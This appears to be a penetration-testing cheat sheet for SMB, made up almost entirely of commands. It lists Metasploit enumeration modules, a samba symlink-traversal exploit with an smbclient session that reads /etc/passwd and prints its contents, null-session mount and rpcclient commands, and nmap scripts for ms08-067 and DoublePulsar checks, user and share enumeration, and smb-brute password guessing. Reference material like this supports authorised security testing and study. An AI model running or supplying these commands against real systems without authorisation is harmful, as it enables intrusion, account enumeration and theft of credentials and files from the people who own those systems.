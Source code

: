 ### metasploit modules

```text
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_version
```

#### gain access to smb shares

```text
use auxiliary/admin/smb/samba_symlink_traversal
set SMBSHARE tmp
exit
smbclient //192.168.99.131/tmp
smb: \> cd rootfs
smb: \rootfs\> cd etc
smb: \rootfs\etc\> more passwd
```

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
[..]
```

#### To mount from linux, type the following

```text
mount.cifs /192.168.99.162/C /media/K_share/ user=,pass=
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U “” target
```

### nmap

```text
nmap -sT –sU -sV 192.168.13.26 -p135,137,138,139,445 --open
nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1
nmap -p139,445 --script smb-os-discovery [target]
nmap -p137,139,445 --script smb-security-mode [target]
nmap -sU -p137 --script smb-security-mode [target]
nmap -p445 --script smb-vuln-ms08-067 [target]
nmap -p445 --script smb-vuln-* [target]
nmap -v -p139,445 --script smb-enum-users [target]
nmap -sU -p137 --script smb-enum-users --script-args samronly=true [target]
nmap -sU -p137 --script smb-enum-users --script-args lsaonly=true [target]
nmap -p139,445 --script smb-enum-shares --script-args smbusername=Administrator,smbpassword=Password [target]
nmap -sU -p137 --script smb-enum-shares [target]
nmap -p445 --script smb-enum-sessions [target]
$ nmap -p445 --script smb-brute --script-args userdb=users.txt,passdb=passwords.txt [target]
nmap -sU -p137 --script smb-enum-sessions [target]
nmap -p445 --script smb-vuln-double-pulsar-backdoor [target]

```

